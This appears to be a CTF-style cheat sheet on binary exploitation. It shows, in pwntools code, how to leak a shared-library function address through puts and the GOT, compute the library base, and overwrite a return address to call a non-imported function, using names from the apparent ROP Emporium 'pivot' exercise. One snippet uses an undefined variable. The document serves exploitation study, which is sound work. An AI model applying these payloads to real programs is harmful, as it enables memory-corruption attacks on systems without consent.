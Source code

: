 # Leak an Address

Use `printf` or `puts` to print out a function address from libc.  
Can then calculate the offset of that function from the base.  
Calculate the offset of a desired function and add that to the libc base,  
you can then call that function directly.  

Determine the used libc with `ldd <target_binary>`.  
`readelf -s <libc_path>` will show function offsets.  

## Address Leak to Call a Non-Imported Function

*Setup: a desired function is in a shared library but is not called in the binary.*  
*The binary calls a different function from the shared library*  

Use `readelf` to determine the target functions offset from the library base:  

```bash
readelf -s libpivot32.so
```

Then find the offsets for the target function and the foothold function.  

Use pwntools to load some known addresses:  

```python3
from pwn import *
elf = ELF(".vuln")

foothold_plt = p32(elf.plt.foothold_function)   # Function from the shared library
foothold_got = p32(elf.got.foothold_function)   # Function from the shared library
puts_plt = p32(elf.plt.puts)                    # function we can use to cause a leak
main_ptr = p32(elf.symbols.main)                # needed to rerun the program and maintain address values

foothold_offset = 0x77d
ret2win_offset = 0x974
```

Leak the address:  

```python3
addr_leak = flat([
    foothold_plt,   # Populate the Global Offset Table with addresses. The imported function from the shared library is used.
    puts_plt,       # Use puts to output the address of foothold_function in the Global Offset Table
    main_ptr,       # Run main again so that we can provide a new payload to call the target function
    foothold_got    # Argument for puts, the address to leak
])
io.sendline(addr_leak)
```

Receive the output of `puts` and carve out the address:  

```python3
io.recvuntil(b"whatever\n")   # bytes preceeding the leak
leaked_addresses = io.recv()    # receive data until the next input. Likely to contain more than 1 address -> the first is the one we want
foothold_leak = unpack(leaked_addresses[:4])    # read the first 4 bytes (32bit address. [:8] for 64bit addresses

# 64 bit variation
leak = address[:6]
leak += b"\x00\x00"
print(f"Leaked address: {hex(unpack(leak))}")
```

Calculate the offset to the desired function by first calculating the shared libraries base,  
then adding the offset to the desired function:  

```python3
lib_base = foothold_leak - foothold_offset    # subtracting the offset to foothold_function (found by readelf) from the leaked foothold_function address in the GOT
ret2win_addr = lib_base + ret2win_offset      # adding the libraries base address and the offset to the target function, resulting in the actual address
```

The target functions address can now be placed on the stack, where a return address is overwritten:  

```python3
win = flat([
    b"A" * offset,
    ret2win_addr
])
io.sendline(win)
```
